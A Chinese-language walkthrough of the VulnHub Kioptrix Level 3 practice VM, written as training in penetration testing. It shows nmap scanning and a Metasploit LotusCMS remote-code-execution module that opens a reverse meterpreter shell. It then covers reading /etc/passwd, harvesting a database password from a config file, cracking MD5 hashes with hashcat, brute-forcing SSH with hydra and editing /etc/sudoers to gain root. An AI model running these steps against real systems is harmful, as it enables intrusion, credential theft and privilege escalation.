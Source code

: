 ```yaml
---
title: vulnhub kioptrix level 3
---
```


打开虚拟机，和攻击机在同一个网段

### 信息收集
#### IP发现
`arp-scan 192.168.159.0/24`和`nmap -sn 192.168.159.0/24`扫描，得到192.168.159.131的目标IP

#### 服务探测
`nmap -sT -sV -Pn -p 1-65535 192.168.159.131`

得到

```
host             port  proto  name  state  info
----             ----  -----  ----  -----  ----
192.168.159.131  22    tcp    ssh   open   OpenSSH 4.7p1 Debian 8ubuntu1.2 protocol 2.0
192.168.159.131  80    tcp    http  open   Apache httpd 2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
```

#### web发现
直接访问发现有表单，web可以测试，登录界面是LotusCMS的字样，估计web上有漏洞

### 漏洞分析
```
searchsploit openssh 4.7
searchsploit httpd 2.2
searchsploit php 5.2
searchsploit lotuscms
```

排除没有PoC的不容易利用的漏洞后，有一些可能可以利用的点
```
LotusCMS 3.0 - 'eval()' Remote Command Execution (Metasploit)  | exploits/php/remote/18565.rb
```

Web上可能有一些其他漏洞

ssh可以尝试暴破

### 漏洞利用
```
msf5 auxiliary(scanner/mysql/mysql_version) > search lotuscms

Matching Modules
================

   #  Name                              Disclosure Date  Rank       Check  Description
   -  ----                              ---------------  ----       -----  -----------
   1  exploit/multi/http/lcms_php_exec  2011-03-03       excellent  Yes    LotusCMS 3.0 eval() Remote Command Execution


msf5 auxiliary(scanner/mysql/mysql_version) > use exploit/multi/http/lcms_php_exec
msf5 exploit(multi/http/lcms_php_exec) > set RHOST 192.168.159.131
RHOST => 192.168.159.131.
msf5 exploit(multi/http/lcms_php_exec) > options

Module options (exploit/multi/http/lcms_php_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.159.131  yes       The target address range or CIDR identifier
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   URI      /lcms/           yes       URI
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic LotusCMS 3.0


msf5 exploit(multi/http/lcms_php_exec) > set uri /
uri => /
msf5 exploit(multi/http/lcms_php_exec) > run

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Using found page param: /index.php?page=index
[*] Sending exploit ...
[*] Sending stage (38247 bytes) to 192.168.159.131
[*] Meterpreter session 11 opened (192.168.159.128:4444 -> 192.168.159.131:37516) at 2019-09-26 15:22:58 +0800

meterpreter > pwd
/home/www/kioptrix3.com
meterpreter > whoami
[-] Unknown command: whoami.
```

使用msf的内置EXP直接获取了shell

### 后渗透利用
发现`uname -a`和`whoami`命令没办法使用，可能对这个账号有很多限制

查看了`/etc/passwd`，原来用户的shell应该是/bin/sh，并不是bash，顺便发现了两个非root外可以用bash的用户

```
loneferret:x:1000:100:loneferret,,,:/home/loneferret:/bin/bash
dreg:x:1001:1001:Dreg Gevans,0,555-5566,:/home/dreg:/bin/rbash
```

使用`getuid`和`sysinfo`可以获取当前用户和系统信息

```
meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : Kioptrix3
OS          : Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686
Meterpreter : php/linux
```

用searchsploit查看2.6.24版本的内核提权漏洞，看起来太多，而且当前的shell的gcc无法使用，暂时不管

www-data的用户目录就是web目录，查看有没有数据库配置文件

```
$ meterpreter > search -d . -f *config*
Found 3 results...
    ./kioptrix3.com/data\config (4096 bytes)
    ./kioptrix3.com/data/modules/Blog/data\config.txt (369 bytes)
    ./kioptrix3.com/gallery\gconfig.php (1440 bytes)
```

查看gconfig.php可以看到数据库密码
```
$GLOBALS["gallarific_mysql_server"] = "localhost";
$GLOBALS["gallarific_mysql_database"] = "gallery";
$GLOBALS["gallarific_mysql_username"] = "root";
$GLOBALS["gallarific_mysql_password"] = "fuckeyou";
```

但是当前用户不能使用mysql客户端，只能试试web上有没有sql注入

扫描器一扫，获取了phpmyadmin的路径，试了刚才找到的数据库密码，可以直接进入

这个时候查询各个表，发现了之前`/etc/passwd`里两个用户的信息
```
dreg 	0d3eccfb887aabd50f243b3f155c0f85
loneferret 	5badcaf789d3d1d09794d8f021f40f0e
```

使用hashcat尝试碰撞hash
```
$ hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/fasttrack.txt -o pass.txt --force
```

碰撞出来loneferret的密码为starwars，用ssh成功登录

```
Last login: Sat Apr 16 08:51:58 2011 from 192.168.1.106
loneferret@Kioptrix3:~$ ls
checksec.sh  CompanyPolicy.README
loneferret@Kioptrix3:~$ cat CompanyPolicy.README 
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO
loneferret@Kioptrix3:~$ sudo ht
Error opening terminal: xterm-256color.
loneferret@Kioptrix3:~$ export TERM=xterm
loneferret@Kioptrix3:~$ sudo ht
```

进入ht的界面后可以使用ALT操作菜单，选择/etc/sudoers文件，在loneferret的后面加上`/bin/sh`

```
loneferret ALL=NOPASSWD: !/usr/bin/su, /usr/local/bin/ht, /bin/sh
```

之后退出
```
loneferret@Kioptrix3:~$ sudo /bin/bash
root@Kioptrix3:~# whoami
root
```

### 其他
在root目录下发现了Congrats.txt，说了两个漏洞，一个是https://www.exploit-db.com/exploits/15891，一个是https://www.exploit-db.com/exploits/17083

可以用SQL注入获取用户名，然后用ht提权

除此之外，web目录还有任意文件读写漏洞，可以获取/etc/passwd，从而得到用户名

然后ssh在得知用户名之后可以直接暴破
```
hydra -l loneferret -P /usr/share/wordlists/fasttrack.txt 192.168.159.131 ssh -t 4
```

可以得到密码starwars
